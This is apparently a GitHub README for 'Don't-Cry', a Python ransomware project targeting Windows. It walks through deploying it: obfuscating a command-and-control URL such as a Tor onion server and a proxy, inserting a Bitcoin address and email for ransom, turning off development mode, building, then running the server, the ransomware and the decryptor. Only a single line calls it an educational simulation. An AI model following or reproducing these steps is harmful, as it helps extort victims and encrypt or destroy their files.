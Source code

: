 # Don't-Cry Ransomware
![Python](https://img.shields.io/badge/Python-3.12%2B-blue?logo=python\&logoColor=white)
![Cython](https://img.shields.io/badge/Requires-Cython-yellow?logo=python\&logoColor=white)
![License](https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat\&logo=open-source-initiative\&logoColor=white)
![Platform](https://img.shields.io/badge/Platform-Windows-blue)
![Status](https://img.shields.io/badge/Status-Temporarily--Inactive-orange)
![DCry](https://github.com/memecoder12345678/DCry-Ransomware/blob/main/DCRY.png)
Ransomware written in Python 💀💀💀
## Usage
* Open the [`DCry.py`](https://github.com/memecoder12345678/DCry-Ransomware/blob/main/src/DCry.py) file.
* Replace the `YOUR_URL` variable with the encoded URL using the `dx42` function like this:
  ```python
  YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
  ```
  (Use the `ex42` function from the `edx42` module to encode your URL first.)
  
  Example:
  ```python
  encoded_url = ex42(b"https://your-tor-server.onion")
  YOUR_URL = dx42(encoded_url).decode()
  ```
* Replace the `YOUR_PROXY` variable similarly with your encoded proxy string:
  ```python
  YOUR_PROXY = dx42(b"YOUR_ENCODED_PROXY").decode()
  ```
* Replace `YOUR_BITCOIN_ADDRESS` with your actual Bitcoin address string.
* Replace `YOUR_EMAIL_ADDRESS` with your actual email address string.
* Set `dev_mode = False` to disable development mode.
* Install the required packages with the following command:
  ```bash
  pip install -r requirements.txt
  ```
* Build the Cython code with the following command:
  ```bash
  python src/setup.py build_ext --inplace
  ```
* Run the server with the following command:
  ```bash
  python src/server.py
  ```
* Run the ransomware with the following command:
  ```bash
  python src/DCRY.py
  ```
* Run the decryptor with the following command:
  ```bash
  python src/decryptor.py
  ```
## Warning
> \[!WARNING]
> This project is a ransomware simulation for educational purposes only.
## License
* This project is licensed under the terms of the [Apache License 2.0](./LICENSE).
